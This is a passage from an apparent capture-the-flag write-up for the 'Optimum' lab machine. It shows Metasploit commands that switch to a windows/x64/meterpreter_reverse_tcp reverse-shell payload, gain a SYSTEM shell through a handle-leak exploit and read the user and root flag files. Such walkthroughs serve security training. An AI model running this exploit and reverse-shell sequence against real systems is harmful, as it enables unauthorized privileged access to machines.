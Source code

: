 ![](/images/optimum/20. run_1.png)
![](/images/optimum/20. run_2.png)

For some reason, no matter how many times we try the exploit with these options, the session will not connect despite the exploit appearing to work (Holy handle leak Batman, we have a SYSTEM shell!!).

This indicates there may be something wrong with our payload so let's see if we can choose something else for our payload:

    show payloads

![](/images/optimum/21. payloads.png)

The default one that is working is number 2 on my list, “generic/shell_reverse_tcp”.  Number 25 on my list is “windows/x64/meterpreter_reverse_tcp”.  Let's try that one.

    set payload 25

![](/images/optimum/22. set.png)

Now before running it, let's see if there are any specific options to choose:
    show advanced options
   
![](/images/optimum/23. advanced.png)

(output trimmed)

![](/images/optimum/23. advanced_2.png)

There are a bunch of options here, but nothing additional we need to set.  Let's try to run it!

    run
    
    getuid

![](/images/optimum/24. run.png)
![](/images/optimum/24. run_2.png)
![](/images/optimum/24. run_3.png)

Success! We have a system level meterpreter shell. Now let's drop to a cmd.exe shell and get our flags:

    shell

    type C:\Users\kostas\Desktop\user.txt.txt

    type C:\Users\Administrator\Desktop\root.txt

![](/images/optimum/25. flags.png)

And here we have our two flags:
<p>&nbsp;</p>
=======================================================
